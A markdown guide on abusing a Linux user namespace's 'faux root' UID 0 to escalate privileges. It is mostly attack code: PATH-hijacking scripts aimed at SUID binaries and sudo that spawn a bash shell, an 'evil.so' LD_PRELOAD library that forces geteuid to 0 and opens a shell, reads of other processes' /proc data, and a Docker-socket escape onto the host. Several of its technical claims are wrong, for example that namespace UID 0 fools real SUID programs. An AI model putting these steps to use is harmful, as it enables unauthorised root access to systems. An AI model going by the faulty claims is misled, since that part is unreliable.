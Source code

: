 # Complete Guide to "Faux UID 0" with Busybox unshare

## Understanding Namespace UID 0 ("Faux Root")

When you run `busybox sh -c "unshare -Urmin"`, you create a user namespace where:
- You have UID 0 **inside the namespace only**
- Outside the namespace, you're still your unprivileged user
- Many security checks can be bypassed, but true root access is limited

## What You Can Do with Namespace UID 0

### 1. Bypass UID-Based Checks

Many programs only check `if (getuid() == 0)` to determine if you're root:

```bash
# Example vulnerable C program
#include <stdio.h>
#include <unistd.h>

int main() {
    if (getuid() == 0) {
        printf("Root access granted!\n");
        system("/bin/sh");  // Will run with SUID privileges if set
    } else {
        printf("Not root, access denied\n");
    }
    return 0;
}
```

### 2. PATH Hijacking SUID Binaries

Exploitable when a SUID binary uses relative paths:

```bash
# Create malicious replacement
echo '#!/bin/bash' > /tmp/some_command
echo '/bin/bash' >> /tmp/some_command
chmod +x /tmp/some_command

# Modify PATH
export PATH=/tmp:$PATH

# Run vulnerable SUID binary that uses `system("some_command")`
/usr/local/bin/vulnerable_program
```

### 3. LD_PRELOAD Attacks (Limited)

Create a malicious shared library to hook functions:

```c
// evil.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int geteuid() {
    return 0; // Always return 0 (root)
}

void _init() {
    system("/bin/sh");
}
```

```bash
# Compile
gcc -shared -fPIC evil.c -o evil.so

# Use with LD_PRELOAD
LD_PRELOAD=./evil.so some_vulnerable_program
```

### 4. Manipulating Your Own Namespace

You can mount filesystems within your namespace:

```bash
# Create a mount point
mkdir /tmp/mnt

# Mount a tmpfs
mount -t tmpfs none /tmp/mnt

# Create files with "root" ownership inside the namespace
touch /tmp/mnt/root_file
ls -la /tmp/mnt/
```

### 5. Exploiting Capabilities

Some programs check capabilities instead of UID:

```bash
# Check what capabilities you have in namespace
capsh --print

# Use capabilities to do privileged operations
# For example, with net_admin capability:
ip link add dummy0 type dummy
```

### 6. Process Information Access

Access information normally restricted:

```bash
# Read process information
cat /proc/self/status
cat /proc/self/environ

# Access other processes' information
cat /proc/*/cmdline
```

## Detailed Examples

### Example 1: Creating a Fake Service that Requires Root

```bash
# Inside namespace (UID 0)
cat > /tmp/fake_service.sh << 'EOF'
#!/bin/bash
if [ $(id -u) -eq 0 ]; then
    echo "Running as root, starting service..."
    # This would execute with SUID privileges if the script is called by a SUID binary
    echo "Creating privileged file..."
    touch /tmp/proof_of_execution
else
    echo "Not running as root, exiting."
    exit 1
fi
EOF

chmod +x /tmp/fake_service.sh
```

### Example 2: Exploiting sudo with NOPASSWD but Limited Commands

If there's a sudoers entry like:
```
user ALL=(ALL) NOPASSWD: /usr/bin/service
```

You might exploit it:
```bash
# Inside namespace (UID 0)
# Create fake 'service' binary
echo '#!/bin/bash' > /tmp/service
echo '/bin/bash' >> /tmp/service
chmod +x /tmp/service

# Add to PATH
export PATH=/tmp:$PATH

# Run sudo command that uses this PATH
sudo service
```

### Example 3: Abusing setuid(0) Calls

```c
// vulnerable.c
#include <stdio.h>
#include <unistd.h>

int main() {
    if (getuid() == 0) {
        // Attempt to drop privileges but restore them
        setuid(1000);  // Drop to regular user
        printf("Temporarily dropped privileges\n");
        setuid(0);     // Try to restore to root
        system("/bin/sh");
    } else {
        printf("Not root\n");
    }
    return 0;
}
```

### Example 4: Exploiting Environment Variables

```bash
# Set environment variables that might be used by SUID programs
export EDITOR=/tmp/malicious_editor

# Then run a vulnerable SUID program that uses $EDITOR
vulnerable_program
```

### Example 5: Running Docker with Namespace Privileges

```bash
# In namespace with UID 0
# If Docker socket is readable
docker run -v /:/host alpine chroot /host /bin/bash
```

## Limitations of Namespace Root

1. **No access to real privileged files**: Can't read `/etc/shadow` or other root-only files
2. **No access to devices**: Many device operations remain restricted
3. **Can't modify the host system directly**: You need additional vulnerabilities
4. **Can't load kernel modules**: Kernel operations remain restricted
5. **SELinux/AppArmor still apply**: MAC restrictions still work against namespace root

## Key Exploitation Strategies

1. **Look for SUID binaries that only check getuid() == 0**
2. **Identify programs that use relative paths**
3. **Find services that verify UID but run with elevated privileges**
4. **Exploit environment variables that affect privileged programs**
5. **Leverage external interfaces (Docker socket, DBs) that trust UID 0**

This namespace privilege is most powerful when combined with other vulnerabilities to achieve true root access on the host system.
